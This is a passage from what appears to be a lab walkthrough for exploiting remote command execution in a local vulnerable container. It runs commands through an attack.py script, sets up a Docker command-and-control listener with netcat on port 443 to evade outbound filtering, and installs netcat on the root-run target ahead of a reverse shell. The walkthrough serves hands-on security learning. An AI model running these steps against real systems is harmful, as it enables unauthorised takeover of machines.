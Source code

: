 Execute command on target - Remote Command Execution (RCE):

```bash
python3 attack.py http://192.168.65.2:30004/ "whoami"
python3 attack.py http://192.168.65.2:30004/ "curl www.google.com"
```

### Gain Reverse Shell Access

At this stage we can execute commands on the target machine. We want to go a step further by gaining a reverse shell into the container.

#### Create Command and Control Server

A Command and Control container will be created to gain shell access and execute commands on the target. This could be used in the future to manage the attack across other machines.

Run container:
```bash
docker run --name commandcontrol --rm -it -p 443:443 ubuntu /bin/bash
```

Install required libraries:
```bash
apt-get update && apt-get install -y ncat
```

Get IP of Apache container:
```bash
docker container inspect -f '{{ .NetworkSettings.IPAddress }}' commandcontrol
```

This IP will be used to establish command and control from the target in the next step. Firt we need to listen on the command and control server for a connection using netcat. We'll use port 443 because it is likely that it will be allowed outbound from the target already:

```bash
nc -lnvp 443
```

#### Get Reverse Shell on Target

From running a few commands we can see that the target vulnerable application is running as the root user on the target. This means we can do anything that we won't on the target and potentially on the host it is running on as well. We can also install any additional libraries that we need to setup command and control.

By running the following command we can see that it is running an old version of Debian Jessie:

```bash
python3 attack.py http://192.168.65.2:30004/ "apt-get update"
```

We can update the package manager sources so we can install additional libraries to exploit the target. We will install net can which will create a connection out to our command and control server.

```bash
python3 attack.py http://192.168.65.2:30004/ "sed -i \'s/deb.debian.org/archive.debian.org/g\' /etc/apt/sources.list"
python3 attack.py http://192.168.65.2:30004/ "apt-get update"
python3 attack.py http://192.168.65.2:30004/ "apt-get install -y --force-yes netcat"
```

